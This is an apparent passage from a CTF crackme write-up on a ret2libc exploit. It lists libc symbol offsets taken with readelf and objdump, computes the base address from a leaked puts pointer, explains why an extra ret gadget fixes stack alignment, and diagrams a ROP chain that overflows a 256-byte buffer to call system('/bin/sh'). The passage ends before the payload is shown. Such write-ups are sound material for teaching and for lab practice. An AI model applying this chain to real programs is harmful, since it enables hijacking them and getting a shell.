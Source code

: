 Find the following function address and the address of "/bin/sh" in the elf of the given libc.so

Find out some symbols in libc

```bash
# readelf -s crackme/libc-2.27.so > misc/elf-libc.txt
   132: 0000000000043240    26 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.2.5
   422: 0000000000080aa0   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
  1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

# objdump -d -j .rodata crackme/libc-2.27.so > misc/rodata-libc.txt
  1b3e14:	20 31 00 2d 63 00 2f 62 69 6e 2f 73 68 00 65 78     | 1.-c./bin/sh.ex|  # &"/bin/sh" = 1b3e1a
```

Using these offsets we can get the real address of all needed symbol:

```python
libc_base = addr_puts - offset_puts
addr_system = libc_base + offset_system
addr_exit = libc_base + offset_exit
addr_binsh = libc_base + offset_binsh
```

Also ,due to "新的sse指令要求操作数16字节对齐，因此可以考虑在你的rop链中增加一个指向`ret`的gadget，多跳一次，使sp指针对齐，就可以避免段错误，成功获取shell。", we need an extra `ret` to align the `rsp` register.

We can still draw a graph of stack structure

```
High Addr
                                                                      system
                                                                    /       \
                                                  gadget_ret       +---------+       
                                                  /      \         | RetAddr |
                            gadget_popret        +--------+<-rsp3  +---------+<-rbp2
                            /          \         | system |        |         |
                           +------------+<-rsp2  +--------+<-rsp2  |  .....  |
                           | gadget_ret |         \      /         |         |
       hear                +------------+<-rsp1                    
 /               \         | &"/bin/sh" |
+-----------------+<-rbp0  +------------+<-rsp0
| RetAddr: popret |         \          /
+-----------------+
|                 |
+-----------------+
|                 |
|  buffer[0:256]  |
|                 |
+-----------------+
 \               /
Low Addr
```

Then we design the payload:
